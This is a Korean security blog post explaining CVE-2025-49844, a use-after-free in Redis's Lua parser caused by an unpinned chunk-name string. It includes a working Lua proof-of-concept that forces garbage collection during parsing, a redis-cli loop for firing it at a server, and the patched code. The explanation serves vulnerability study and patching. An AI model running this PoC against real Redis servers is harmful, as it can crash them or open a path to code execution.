

[하루한줄] CVE-2025-49844 : Redis의 Lua 스크립트를 통한 Use After Free로 인한 RCE 취약점
URL
Target
- Redis server ≤ 8.2.1
Explain
비정형 데이터를 저장하고 관리하기 위한 오픈 소스 데이터베이스 관리 시스템 Redis에서 UAF로 인한 RCE 취약점이 발생하였습니다. 이 취약점은 Lua 스크립트를 통해서 발생하게 됩니다.
Redis는 스크립팅을 위해 기본적으로 Lua 5.1을 내장하고 있습니다. 이때, Lua 스크립트를 컴파일하는 과정에서 Lua 스크립트를 읽어 들이는 luaY_parser() 함수에서 취약점이 발생합니다.

Lua에서는 Lua 스택을 통해 함수 호출, 연산, 지역 변수 저장 등 거의 모든 작업을 처리합니다. 그렇기 때문에 C의 malloc(), free()처럼 수동으로 메모리를 관리하지 않습니다. 대신 Lua에서는 GC(Garbage Collector)를 통해 더 이상 사용되지 않는 객체(문자열, 테이블 등)를 찾아 메모리에서 해제하는 방식으로 동작합니다. Lua 스택에 사용 중인 값은 고정(Pinning)하여 GC에게 알려주면, GC는 해당 값을 해제하지 않습니다.
...
luaX_setinput(L, &lexstate, z, luaS_new(L, name));
...문제는 luaY_parser()함수 내에서 각 함수를 호출하기 전에 Lua 스택에 청크 이름 문자열을 고정하지 않습니다. 위 luaY_parser() 내에서는 청크 이름을 생성하지만, 별도의 청크 고정이 이루어지지 않습니다.
이 때문에, 고정되지 않은 해당 청크를 GC는 인식하지 못하고 해제 작업을 실행합니다. 이후 해당 주소를 luaY_parser()가 다시 참조하고 접근하게 되면 UAF 취약점이 발생합니다.
PoC는 아래와 같습니다.
luaY_parser가 파싱을 완료하기 전에 GC를 두 번 연속으로 강제 실행시켜, 파서가 사용 중인 청크를 의도적으로 해제 시켜 UAF를 발생시킵니다.
-- CVE-2025-49844 repro: leverage GC during parsing to revive freed chunk name.
-- Keep the chunk large enough to hold onto GC-managed memory but avoid the
-- "200 local variables" compilation guard by filling it with comments.
local payload = string.rep('-- whatthefuuuuuuuuuuuuuuck\n', 4096)
local function build_payload()
local lines = {}
for i = 1, 150 do
lines[i] = string.format('local v_%d = %d', i, i)
end
lines[#lines + 1] = 'return 0'
return table.concat(lines, '\n')
end
local function make_chunk_name()
local p = newproxy(true)
getmetatable(p).__gc = function()
-- Re-enter the collector while luaY_parser still holds the name string
collectgarbage('collect')
end
return tostring(p)
end
local source = build_payload()
for i = 1, 2000 do
local fn, err = loadstring(source, make_chunk_name())
if not fn then
return { step = i, err = err }
end
if i % 64 == 0 then
-- Heap churn to encourage the collector to run during parsing
local junk = {}
for j = 1, 256 do
junk[j] = string.rep('A', 4096)
end
end
end
return "completed w/o immediate crash (sybau & re-run to increase likelihood)"해당 Lua 스크립트를 redis-cli를 통해 해당 서버 주소로 전달하면 UAF를 통한 취약점이 발생합니다.
while redis-cli -h localhost -p 6379 --eval CVE-2025-49844.lua >/dev/null; do
printf '.'
done해당 취약점은 Redis 8.2.2 버전에 패치 되었습니다. 생성된 청크를 setsvalue2s(), incr_top() 함수를 통해 스택에 사용 중임을 알리며 고정 시킵니다. GC에 사용 중인 청크임을 알려주기에 UAF 발생을 막을 수 있습니다.
TString *tname = luaS_new(L, name);
setsvalue2s(L, L->top, tname);
incr_top(L);
luaX_setinput(L, &lexstate, z, tname);
--L->top;Reference

본 글은 CC BY-SA 4.0 라이선스로 배포됩니다. 공유 또는 변경 시 반드시 출처를 남겨주시기 바랍니다.